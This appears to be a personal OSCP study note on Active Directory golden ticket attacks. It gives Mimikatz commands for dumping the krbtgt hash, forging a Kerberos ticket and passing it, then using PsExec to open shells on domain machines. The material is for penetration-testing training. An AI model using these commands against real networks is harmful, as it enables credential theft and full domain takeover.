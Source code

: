 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/o-active-directory-movement/7-golden-tickets/"}
---
```


---------
- TGTs are encrypted using the hash of the krbtgt user.
- If the hash of krbtgt could be acquired one could create custom TGTs, a.k.a. golden tickets.
- Golden tickets gives permission to access the entire domain's resources
- E.g. one could create a ticket stating that any user is a member of the Domain Admins group.
- To get the krbtgt hash a Domain Admin user is required, or if the domain controller itself is compromised.
- The ticket itself can be created from anywhere without privileges.
------------
### Generate Golden Ticket Locally Using Mimikatz:
1. Get hold of krbtgt hash, e.g. by compromising DC and dumping NTLM with "lsadump::lsa /patch".
2. Enumerate domain SID:
```
whoami /user
```
- Result: corp\jeff ==S-1-5-21-1987370270-658905905-1781884369==-1105
3. Purge all existing kerberos tickets in Mimikatz:
```
kerberos::purge
```
4. Generate ticket:
```
kerberos::golden /user:<golden-ticket-username> /domain:<domain> /sid:<domain-sid> /krbtgt:<krbtgt-hash> /ptt
```
5. Launch new command prompt:
```
misc::cmd
```
6. Use PsExec to launch shells to arbitrary domain machines:
```
PsExec.exe \\<host> cmd.exe
```
- Important to use hostname instead of ip since we want to authenticate with kerberos.



